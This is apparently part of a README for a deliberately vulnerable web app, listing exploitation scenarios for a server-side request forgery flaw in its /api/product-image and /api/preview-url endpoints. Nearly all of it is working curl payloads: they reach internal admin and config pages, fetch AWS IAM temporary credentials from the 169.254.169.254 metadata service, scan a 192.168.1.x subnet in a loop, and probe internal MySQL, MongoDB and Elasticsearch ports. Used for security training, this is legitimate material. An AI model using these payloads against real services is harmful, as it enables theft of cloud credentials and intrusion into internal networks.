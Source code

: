 
## 🔥 Exploitation Scenarios

### Scenario 1: Access Internal Admin Panel
```bash
# Step 1: Discover internal endpoints
curl "http://localhost:3000/api/product-image?url=http://localhost:3000/admin/users"

# Step 2: Extract sensitive data
curl "http://localhost:3000/api/product-image?url=http://localhost:3000/internal/config"
```

**Expected Result:** Exposes internal user data and API keys

---

### Scenario 2: Cloud Metadata Exploitation (AWS)
```bash
# Get instance metadata
curl "http://localhost:3000/api/product-image?url=http://169.254.169.254/latest/meta-data/"

# Get IAM role name
curl "http://localhost:3000/api/product-image?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Get temporary credentials
curl "http://localhost:3000/api/product-image?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE-NAME]"
```

**Expected Result:** AWS credentials and instance information

---

### Scenario 3: Internal Network Discovery
```bash
# Scan common internal IPs
for i in {1..255}; do
  curl "http://localhost:3000/api/product-image?url=http://192.168.1.$i:80/" \
    -w "\n192.168.1.$i: %{http_code}\n" -s -o /dev/null
done

# Check for common services
curl -X POST http://localhost:3000/api/preview-url \
  -H "Content-Type: application/json" \
  -d '{"targetUrl":"http://localhost:3306"}' # MySQL

curl -X POST http://localhost:3000/api/preview-url \
  -H "Content-Type: application/json" \
  -d '{"targetUrl":"http://localhost:27017"}' # MongoDB

curl -X POST http://localhost:3000/api/preview-url \
  -H "Content-Type: application/json" \
  -d '{"targetUrl":"http://localhost:9200"}' # Elasticsearch
```

---
